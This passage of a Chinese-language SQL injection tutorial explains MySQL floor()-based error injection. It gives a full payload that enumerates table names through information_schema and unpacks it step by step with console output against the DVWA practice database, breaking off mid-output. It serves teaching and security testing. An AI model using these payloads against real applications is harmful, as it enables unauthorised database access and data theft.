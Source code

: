 ## 0x09 没有长度限制的floor报错函数详解
采用floor函数进行报错注入，没有长度限制，但是payload较为复杂。
```sql
and(select 1 from(select count(*),concat((select (select (SELECT distinct
concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database()
LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from
information_schema.tables group by x)a)
```
payload解读：  
1. select distinct：从数据库中获取数据，确保查询返回结果唯一，防止重复的表名；
2. concat(0x7e, table_name, 0x7e)：字符串拼接，table_name 是从 information_schema.tables 中获取的表名；
3. limit 0,1：返回结果集中的第一行；
4. 以下payload为获取当前库的第一个表名；
```sql
mysql> select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa';
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~guestbook~                  |
| ~users~                      |
+------------------------------+
mysql> select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1;
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~guestbook~                  |
+------------------------------+
```
5. 再向外一层

```sql
mysql> select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1;
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~guestbook~                  |
+------------------------------+
1 row in set (0.00 sec)

mysql> select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1);
+-------------------------------------------------------------------------------------------------------------------+
| (select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1) |
+-------------------------------------------------------------------------------------------------------------------+
| ~guestbook~                                                                                                       |
+-------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1;
+---------------------------------------------------------------------------------------------------------------------------+
| (select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) |
+---------------------------------------------------------------------------------------------------------------------------+
```